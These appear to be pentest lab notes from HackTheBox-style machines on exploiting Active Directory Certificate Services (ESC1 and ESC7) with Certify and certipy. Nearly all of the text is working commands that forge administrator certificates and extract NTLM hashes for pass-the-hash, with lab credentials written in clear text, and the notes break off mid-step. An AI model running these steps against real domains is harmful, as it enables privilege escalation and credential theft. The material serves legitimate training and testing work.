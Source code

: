 ./certify.exe find /vulnerable
```
- Template Name: UserAuthentication
- msPKI-Certificate-Name-Flag: ENROLLE SUPPLIES SUBJECT
- Permissions: Enrollment Rights includes Domain Users
	- must be logged in as domain user
```
./certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator
```
- should return RSA Private Key and Certificate
	- copy/paste into file on kali named "cert.pem"
- on kali run:
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
- password is blank
- then run:
```
certipy auth -pfx cert.pfx -dc-ip 10.129.121.20 -username Administrator -domain sequel.htb
```
- should return administrator ntlm hash
	- if not, run:
		- `ntpdate 10.129.121.20`
			- may need to run multiple times, until "no skew", but might work with just "no leap"; keep trying and running certipy command right after

Can also run ADCS remotely with certipy
```
certipy find -dc-ip 10.129.42.194 -ns 10.129.42.194 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```
- bottom of output will list vulnerabilities like ESC7
	- exploit ESC7:
```
certipy ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
- adds user Raven to group that can manage CA permissions
```
certipy find -dc-ip 10.129.42.194 -ns 10.129.42.194 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
```
- same command as above, run to confirm user was added to group successfully (look at ManageCertificates row for user added)
```
certipy req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
- command is supposed to fail, but saves private key (hit `y`)
```
certipy ca -ca manager-DC01-CA -issue-request 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
- should successfully issue certificate
	- if it fails go back to previous command to add Raven to group (as this resets)
```
certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 13 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123'
```
- retrieves the issued certificate and saves as administrator.pfx
```
certipy auth -pfx administrator.pfx -dc-ip manager.htb
```
- should give hash for administrator for pass-the-hash (use part after the colon)
	- if nameserver error, try replacing `manager.htb` with ip of machine
- if clockskew error, run:
```